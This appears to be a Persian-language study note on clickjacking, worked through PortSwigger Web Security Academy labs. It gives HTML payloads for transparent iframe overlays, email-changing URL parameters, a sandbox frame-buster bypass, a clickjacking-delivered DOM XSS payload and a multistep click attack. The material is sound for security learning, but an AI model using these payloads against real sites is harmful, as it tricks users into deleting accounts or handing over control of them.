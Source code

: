 # Clickjacking

## Exploit
- **حمله مقدماتی با حفاظت CSRF Token**
  - در کد زیر پیکسل ها را تغییر می دهیم تا متن *Click me* روی کلید *Delete Account* بیفند ، برای این کار باید ابتدا opacity را برابر 0.1 قرار دهیم و پس از بدست آوردن موقعیت درست، آن را روی 0.0001 تنظیم کنیم:
```HTML
<style>
   iframe {
       position:relative;
       width:700px;
       height: 500px;
       opacity: $opacity;
       z-index: 2;
   }
   div {
       position:absolute;
       top:300px;
       left:60px;
       z-index: 1;
   }
</style>
<div>Test me</div>
<iframe src="https://ac721fc61e66ddc6c0325ed500ca00d4.web-security-academy.net/my-account"></iframe>
```
- **پر کردن خودکار فیلدهای فرم با استفاده از URL Param**
  - برای این منظور در کد فوق تگ iframe را به شکل زیر تغییر می دهیم:
```HTML
<iframe src="https://ac721fc61e66ddc6c0325ed500ca00d4.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```
- **بای پاس کردن Frame Buster**
  - در اینحالت اجازه iframe کردن سایت قربانی را نخواهیم داشت، برای دور زدن این محافظت attribute زیر را به تگ iframe اضافه می کنیم:
```HTML
<iframe sandbox="allow-forms" src="https://ac1f1fd41fe93c54c00a5216000e009e.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
``` 
- **ترکیب با DOM-based XSS**
  - در اینحالت payload عه XSS را درون فیلد Name قرار می دهیم:
```HTML
<iframe src="https://ac321fc21fb2c80cc035160b00f20003.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```
- **کلیک چند مرحله ای**
  - در اینحالت پس از کلیک کاربر بر روی *Delete Account* یک سوال تائید به کاربر نمایش داده می شود و دو باره باید کلیک کند.
  - باید دو جا برای کلیک کاربر ایجاد کنیم و مشخص کنیم که با چه ترتیبی بر روی کلید های کلیک کند، که کد ان به صورت زیر خواهد بود:
```HTML
<style>
   iframe {
       position:relative;
       width:500px;
       height: 700px;
       opacity: 0.1;
       z-index: 2;
   }
   .firstClick, .secondClick {
       position:absolute;
       top:495px;
       left:50px;
       z-index: 1;
   }
   .secondClick {
       top:290px;
       left:210px;
   }
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://ac221f9c1edf7ad8c03e127600c20051.web-security-academy.net/my-account"></iframe>
```
